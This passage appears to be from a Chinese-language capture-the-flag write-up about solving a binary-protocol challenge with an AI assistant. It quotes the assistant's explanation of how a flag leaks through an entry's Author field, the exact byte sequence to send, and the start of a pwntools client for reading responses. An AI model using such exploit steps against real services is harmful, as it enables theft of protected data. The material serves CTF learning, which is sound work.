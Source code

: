 ```

Why it works
init_flag_from_file loads “/flag” for every connection and saves it in g_FlagString.
cmd_create_default_entry copies that global pointer into the new entry’s Author field.
cmd_send_metadata_bundle serializes the entry and returns the Author field verbatim.

Bytes to send (in order)
b"\x10"
b"\x22"
b"\x32\x01"
Optionally b"\x11" to close.

Response parsing
Read one chunk: tag (1), length (2 LE), payload.

Payload is a small container; scanning printables, the token “Author” is followed by the flag string.
The included poc_ncif.py does this sequence and extracts “Author”.
```

老實說，這段解釋看起來無懈可擊，但它沒有修改任何腳本，我們仍卡住，而且它完全沒有自己動手跑腳本，所以我開放讓它實際跑起來看看，並把之後的輸出提供給它，希望能觸發更好的回應。

>Okay you can now interact with it by running the python script, but I don’t think the exploit is working :(

# 近在咫尺，又似遠在天邊

>Please add a nice and clean parser!

```
from __future__ import annotations

from pwn import remote  # type: ignore
import os
import re
from typing import Dict, Tuple, Optional, List

# Protocol helpers -----------------------------------------------------------

def send_cmd(io, data: bytes) -> None:
    io.send(data)


def read_exact(io, n: int, timeout: float = 2.0) -> bytes:
    data = b""
    while len(data) < n:
        chunk = io.recv(n - len(data), timeout=timeout)
        if not chunk:
            break
        data += chunk
    return data


def read_chunk(io, timeout: float = 2.0) -> Optional[Tuple[int, bytes]]:
    """Read one server chunk: 1-byte tag + 2-byte little-endian length + payload."""
    hdr = read_exact(io, 3, timeout=timeout)
    if len(hdr) < 3:
        return None
    tag = hdr[0]
    length = hdr[1] | (hdr[2] << 8)
    payload = read_exact(io, length, timeout=timeout)
    if len(payload) < length:
        return None
    return tag, payload
```